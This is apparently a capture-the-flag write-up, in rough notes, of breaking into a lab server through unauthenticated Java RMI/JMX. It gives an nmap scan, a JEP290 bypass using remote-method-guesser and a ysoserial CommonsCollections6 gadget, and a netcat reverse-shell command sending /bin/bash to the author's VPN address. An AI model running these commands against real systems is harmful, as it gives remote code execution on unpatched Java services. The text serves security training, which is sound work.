

## Arkanoid

Points: 5

We're given a server to check for vulnerabilities. 

Nmap scan `nmap -sV -T4 -A arkanoid.cns-jv.tcc -p1-65535` shows 8000, 60001, 60002 ports open:
```
Nmap scan report for arkanoid.cns-jv.tcc (10.99.0.102)
Host is up (0.019s latency).
rDNS record for 10.99.0.102: localhost
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
8000/tcp  open  http       JBoss Enterprise Application Platform
|_http-title: Gamedev Canvas Workshop - lesson 10: finishing up
36809/tcp open  tcpwrapped
60001/tcp open  java-rmi   Java RMI
| rmi-dumpregistry: 
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer, 
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @localhost:60002
|             extends
|_              java.rmi.server.RemoteObject
60002/tcp open  java-rmi   Java RMI

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 45.91 seconds
```

There's the game itself on port 8000 which isn't very interesting and unauthenticated JMX RMI on ports 60001 (register) and 60002 (TODO)

I tried several tools for scanning/attackng JMX RMI with the best results from https://github.com/qtc-de/remote-method-guesser which also conveniently comes with a Docker image (`docker pull ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0`).

So first I enumerated the 60001 registry endpoint with `docker run --rm -it ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 enum 10.99.0.102 60001` which showed a JEP290 bypass enumeration vulnerability.




TODO theory: JEP 290 was a security fix for JVM which removed the possibility to directly attack RMI using a deserialization attack by filtering. But the fix can still be bypassed by creating a "reverse" channel - creating a client on target server which would open an unfiltered channel outside which then can be used to attack


here the 10.99.0.28 is IP of my machine on the VPN:
1 - reverse shell listener: `nc -vlp 7002`
2 - RMI listener: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 listen 0.0.0.0 7001 CommonsCollection6 'nc 10.200.0.28 7002 -e /bin/bash'`
3 - attack: `docker run --rm -it -p 7001:7001 ghcr.io/qtc-de/remote-method-guesser/rmg:4.4.0 serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --component reg`

=================================================================================================================================================================
old:
...
JEP290 bypass  
An Trinh gadget
Vulnerable

JEP290 provided filtering in order to defend against JMX RMI deserialization attack so a direct attack against the endpoint won't work.
Instead the defense can be bypassed by creating a separate listener without filtering and using that vector to attack:


I had to use java 11
(I used rmg from release and ysoserial-all.jar from https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar) 

Order:
My IP in VPN: 10.200.0.28


1) listen for reverse shell: `nc -vlp 7002`
2) listen RMI ???: `java -jar ./rmg-4.4.1-... listen 10.200.0.28 7001 CommonsCollections6 'nc 10.200.0.28 7002 -e /bin/bash' --yso ./ysoserial-all.jar`
3) serial attack `java -jar ./rmg-4.4.1-... serial 10.99.0.102 60001 AnTrinh 10.200.0.28:7001 --yso ./ysoserial-all.jar`

Now that the netcat captured shell, I spent some time looking around for the flag but in the end it was env var of the running process
`env` -> flag


 not needed: #I had to add 10.99.0.102 localhost to /etc/hosts
TODO - bridged Docker?

